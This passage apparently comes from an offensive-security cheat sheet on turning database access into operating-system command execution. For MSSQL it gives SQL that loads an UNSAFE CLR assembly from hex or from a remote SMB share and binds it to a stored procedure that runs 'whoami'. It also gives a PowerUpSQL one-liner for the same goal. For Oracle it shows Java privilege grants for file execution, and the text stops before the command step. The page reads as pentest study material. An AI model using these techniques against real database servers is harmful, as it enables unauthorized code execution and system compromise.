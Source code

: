 We can now load the assembly into MSSQL and execute it as follows:

```sql
# Load the assembly 
## From Hex (replace the hex code)
CREATE ASSEMBLY my_assembly FROM 0x4D5A900..... WITH PERMISSION_SET = UNSAFE;
GO

## Or directly load from remote file
CREATE ASSEMBLY my_assembly FROM '\\192.168.15.2\fileserver\cmd_exec.dll' WITH PERMISSION_SET = UNSAFE;
GO

# Link assembly to a stor procedure
CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_assembly].[StoredProcedures].[cmd_exec];
GO

# Execute
cmd_exec 'whoami'

# Clean up
DROP PROCEDURE cmd_exec
DROP ASSEMBLY my_assembly
```

Alternatively, we may use [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) to acheive the same goal.

```powershell
Invoke-SQLOSCLR -Username sa -Password pw -Instance instance -Command "whoami" -Verbose
```
{% endtab %}

{% tab title="OracleSQL" %}
### **Oracle Java**

We may execute command on OracleSQL using **Oracle** **Java**. First, check if you have enought privileges:

```sql
--check for privileges
select * from dba_java_policy
select * from user_java_policy

--grant privileges
exec dbms_java.grant_permission('SCOTT', 'SYS:java.io.FilePermission','<<ALL FILES>>','execute');
exec dbms_java.grant_permission('SCOTT','SYS:java.lang.RuntimePermission', 'writeFileDescriptor', '');
exec dbms_java.grant_permission('SCOTT','SYS:java.lang.RuntimePermission', 'readFileDescriptor', '');
```

Now we can execute commands:&#x20;
